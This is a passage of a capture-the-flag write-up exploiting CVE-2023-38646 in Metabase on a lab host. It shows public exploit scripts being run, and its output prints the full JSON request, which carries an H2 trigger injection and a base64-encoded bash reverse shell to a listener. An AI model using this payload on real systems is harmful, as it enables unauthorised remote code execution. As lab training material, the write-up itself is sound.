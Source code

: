 ### Exploitation

Search for CVE-2023-38646 exploit :

[https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396)

With a PoC : [https://github.com/shamo0/CVE-2023-38646-PoC](https://github.com/shamo0/CVE-2023-38646-PoC)

There are several exploit and PoC on github. We can try several.

Let's try this one :

[https://github.com/securezeron/CVE-2023-38646](https://github.com/securezeron/CVE-2023-38646)

First, there is a script to check if this application is vulnerable:

```bash
git clone https://github.com/securezeron/CVE-2023-38646.git
cd CVE-2023-38646
python3 ./CVE-2023-38646-POC.py --ip data.analytical.htb
```

```bash
Failed to connect using HTTPS for data.analytical.htb. Trying next protocol...
None. Vulnerable Metabase Instance:-
             IP: data.analytical.htb
             Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
```

This instance is vulnerable, so we can exploit it :

```bash
python3 ./CVE-2023-38646-Reverse-Shell.py  --rhost http://data.analytical.htb  --lhost 10.10.14.23 --lport 4444
```

```bash
[DEBUG] Original rhost: http://data.analytical.htb
[DEBUG] Preprocessed rhost: http://data.analytical.htb
[DEBUG] Input Arguments - rhost: http://data.analytical.htb, lhost: 10.10.14.23, lport: 4444
[DEBUG] Fetching setup token from http://data.analytical.htb/api/session/properties...
[DEBUG] Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[DEBUG] Version: v0.46.6
[DEBUG] Setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[DEBUG] Payload = YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjIzLzQ0NDQgMD4mMQ==
[DEBUG] Sending request to http://data.analytical.htb/api/setup/validate with headers {'Content-Type': 'application/json'} and data {
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details": {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules": {},
        "details": {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjIzLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "test",
        "engine": "h2"
    }
}
```